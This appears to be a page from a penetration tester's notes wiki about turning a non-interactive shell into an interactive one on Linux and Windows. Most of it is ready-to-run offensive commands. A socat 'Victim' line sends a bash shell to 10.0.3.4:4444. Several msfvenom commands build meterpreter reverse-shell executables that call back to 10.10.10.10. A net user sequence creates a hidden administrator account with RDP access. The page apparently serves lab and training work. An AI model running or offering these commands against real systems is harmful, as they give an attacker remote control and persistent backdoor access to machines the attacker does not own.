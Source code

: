 ```table-of-contents
```

[[_TOC_]]

Most [netcat](../Tools/netcat.md)-like tools provide a non-interactive shell, which means that programs that require user input such as many file transfer programs or `su` and `sudo` tend to work poorly, if at all. Non-interactive shells also lack useful features like tab completion and job control. It is always a good idea upgrade any non-interactive shell to an interactive one.

# Linux

## Python PTY

```python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## TERM and SHELL exports

```bash
SHELL=/bin/bash script -q /dev/null

^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
```

## socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Fix rows and columns

From a clean terminal:

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/it.local/10.1.1.1]
└─$ stty -a
speed 38400 baud; rows 60; columns 235; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```

From the "malformed" terminal:

```bash
www-data@luigi:/var/www$ stty rows 60 columns 235
stty rows 60 columns 235
```

---

# Windows:

## Rlwrap [^1]

[^1]: https://github.com/hanslub42/rlwrap](https://github.com/hanslub42/rlwrap

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/it.local/10.1.1.1]
└─$ rlwrap nc -nlvp 443
```

## meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter.exe
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter-x64.exe
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter-x64.exe
```

## RDP

```powershell
net user maoutis Qwerty123! /add
net localgroup Administrators maoutis /add
net localgroup "Remote Desktop Users" maoutis /ADD
```

